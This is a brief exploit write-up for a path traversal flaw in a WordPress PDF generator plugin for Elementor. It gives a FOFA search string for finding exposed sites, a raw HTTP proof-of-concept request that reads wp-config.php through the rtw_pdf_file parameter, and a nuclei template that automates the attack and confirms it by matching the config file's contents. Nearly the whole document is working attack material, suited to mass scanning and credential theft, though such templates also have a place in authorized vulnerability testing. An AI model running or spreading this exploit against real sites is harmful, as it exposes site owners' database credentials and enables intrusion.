 # fofa

```plain
"wp-content/plugins/pdf-generator-addon-for-elementor-page-builder"
```

# POC

```http
GET /?rtw_pdf_file=../../../wp-config.php&rtw_generate_pdf=1 HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

# nuclei

```yaml
id: WordPress-rtw-pdf-file-EPB-uploadfile

info:
  name: WordPress-rtw-pdf-file-EPB-uploadfile
  author: zxf
  severity: high
  metadata:
    fofasearch: "wp-content/plugins/pdf-generator-addon-for-elementor-page-builder"

http:
  - raw:
      - |
        GET /?rtw_pdf_file=../../../wp-config.php&rtw_generate_pdf=1 HTTP/1.1
        Host: {{Hostname}}
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        
    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"The base configuration for WordPress")
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739269848432-78700499-58e7-4fb6-96bf-acd0902dfbec.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739270106119-d942267a-7fd7-4d0b-a538-4c0001536519.png)

